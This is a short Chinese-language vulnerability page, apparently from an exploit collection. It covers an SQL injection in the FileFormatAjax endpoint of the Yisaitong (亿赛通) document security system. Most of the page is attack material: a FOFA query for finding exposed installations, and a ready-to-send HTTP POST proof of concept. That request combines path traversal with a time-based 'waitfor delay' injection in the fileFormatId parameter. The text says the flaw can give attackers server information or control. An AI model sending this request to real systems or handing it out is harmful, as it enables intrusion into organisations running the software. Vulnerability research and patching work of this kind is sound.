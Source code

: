 # 亿赛通电子文档安全管理系统FileFormatAjax存在SQL注入漏洞

亿某通电子文档安全管理系统` FileFormatAjax`接口的`fileFormatId`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-DLP"
```

## poc

```javascript
POST /CDGServer3/js/../FileFormatAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=delFileFormat&fileFormatId=-1'waitfor delay '0:0:5'--
```

